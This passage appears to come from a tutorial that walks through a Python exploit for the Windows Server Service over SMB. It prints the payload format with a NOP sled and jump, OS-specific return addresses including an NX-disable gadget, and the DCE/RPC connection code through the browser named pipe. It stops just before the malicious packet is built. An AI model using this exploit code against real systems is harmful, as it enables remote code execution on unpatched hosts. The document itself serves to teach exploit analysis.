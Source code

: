 This first line defines the basic format for the payload with a placeholder `%s`, a NOP sled `\x90 * 8` and a jump `\xeb\x62` (`jmp short 0x62`), jumping 98 bytes forward into the shellcode. It also has padding using `A` bytes.

Next up we define the return address that we want the target to `jmp` to:

```python
if self.os == '1':
   ret    = "\x61\x13\x00\x01"
   jumper = nonxjmper % (ret, ret)

# ...

elif self.os == '4':
   ret_dec    = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
   ret_pop    = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
   jmp_esp    = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
   disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
   jumper     = "\x08\x04\x02\x00%s%s%s" + "A" * 28 + "%s" + "\xeb\x02" + "\x90" * 2 + "\xeb\x62" % (ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)

# ...
```

Now that the jumper is ready, we establish the connection:

```python
print('[+] Initiating connection ...')

if self.port == '445':
   self.__trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % self.target)
else:
   self.__trans = transport.SMBTransport(remoteName='*SMBSERVER', remote_host='%s' % self.target, dstport = int(self.port), filename = '\\browser' )

try:
   self.__trans.connect()
   self.__dce = self.__trans.DCERPC_class(self.__trans)
   self.__dce.bind(uuid.uuidtup_to_bin(('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))

except (SessionError, NetBIOSTimeout) as e:
   print("[-] Error: %s" % str(e))
   sys.exit(-1)

print('[+] Connected to ncacn_np:%s[\\pipe\\browser]' % self.target)
```

This establishes a connection to the Windows Server Service. If the port is 445, it sets up a `DCE/RPC` (Distributed Computing Environment / Remote Procedure Call) transport on top of SMB using `ncacn_np` (named pipe transport) with the `\\pipe\\browser` named pipe.

If the port is not 445, it establishes the connection using plain SMB instead, specifying the same `\\browser` named pipe over which the `DCE/RPC` interface is exposed by the Windows Server Service.

Lastly we craft our malicious packet:
